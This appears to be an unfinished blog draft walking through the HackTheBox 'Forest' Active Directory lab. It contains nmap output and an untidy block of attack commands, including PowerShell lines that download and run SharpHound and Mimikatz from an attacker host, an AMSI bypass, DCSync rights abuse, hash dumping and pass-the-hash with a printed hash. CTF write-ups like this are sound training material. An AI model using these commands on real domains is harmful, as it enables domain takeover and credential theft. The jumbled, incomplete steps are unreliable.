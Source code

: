 ```yaml
---
layout: post
title: "HTB: Forest"
date: 2022-08-10 18:07 +0100
tags: hackthebox htb activedirectory hacking ldap bloodhound
categories: [Pentesting, HackTheBox]
published: false
---
```


Forest is a fully Windows based machine which is semi-unique on HackTheBox in that it doesn't have a web server running. We start by enumerating the open ports eith `nmap` and find LDAP running. From there we're able to use APRep Roasting to get a hash which we crack using `JohnTheRipper` and gain access to the machine using `evil-winrm` where we're able to gather some information to dump into `BloodHound` and from there gain full admin through causing a DCSync and then dumping the Administrators hash with `impacket-secretsdump`.

Strap in.

![Forest](/assets/img/Forest.png)

## Enumeration

*Nmap Results (clipped)*

```
53/tcp    open  domain       syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2022-09-23 09:55:12Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack Microsoft Windows RPC
49680/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        syn-ack Microsoft Windows RPC
49685/tcp open  msrpc        syn-ack Microsoft Windows RPC
49701/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

Lots of open ports, most of them are garbage*

The main ones of interest for us since there is no web server, are the LDAP and SMB ports, and also Kerberos, but we can't really do much with Kerberos until we have some credentials.

And just for completeness, Simple DNS Plus is vulnerable to a [Remote DoS attack](https://www.exploit-db.com/exploits/6059)

> \*Something I've noticed in people who are new to Windows Pentesting is that they tend to panic when they see the output from `nmap` and see all of those ports open. Run Service Verification on them and you'll see it's mostly just RPC and while there is some useful information you can gain from RPC it's very low on the list of things you can actively exploit.
{: .prompt-tip }

## User.txt

```bash
# Python Bloodhound Ingestor (returned some slightly jank data)
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.129.95.210

# SharpHound.ps1
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.3:8000/SharpHound.ps1")
Invoke-BloodHound

After reviewing the BloodHound data we find a path to DC Administrator via the following:

- svc-alfresco is a member of "Service Accounts"
- "Service Accounts" is a member of "Priviledged IT Accounts"
- "Priviledged IT Accounts" is a member of "Account Operators"
- members of "Account Operators" have "GenericAll" permissions on "Exchange Windows Permissions"


IWR -Uri http://10.10.14.3:8000/PowerView.ps1 -Outfile pv.ps1
Bypass-4MSI

# Add a user
net user bullsec Test123 /add /domain

# Add them to the correct groups
net group "Exchange Windows Permissions" bullsec /add
net localgroup "Remote Management Users" bullsec /add


evil-winrm -i 10.129.228.27 -u bullsec -p Test123
$pass = convertto-securestring 'Test123' -asplain -force
$cred = new-object system.management.automation.pscredential("htb\bullsec", $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bullsec -Rights DCSync
impacket-secretsdump htb/bullsec@10.129.228.27 -outputfile forest.hashes
impacket-psexec administrator@10.129.228.27 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
type C:\Users\Administrator\Desktop\root.txt
exit

$pass = convertto-securestring 'Test123' -asplain -force
$cred = new-object system.management.automation.pscredential("htb\bullsec", $pass)

# This doesn't work
Add-ObjectACL -PrincipalIdentity bullsec -Credential $cred -Rights DCSync
DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.

# This does


Add-DomainObjectAcl


IEX(New-Object Net.WebClient).downloadString("http://10.10.14.3:8000/Invoke-Mimikatz.ps1")
```

## BloodHound

![BloodHound Graph](/assets/img/2022-10-09-00-08-09.png)

## Root.txt
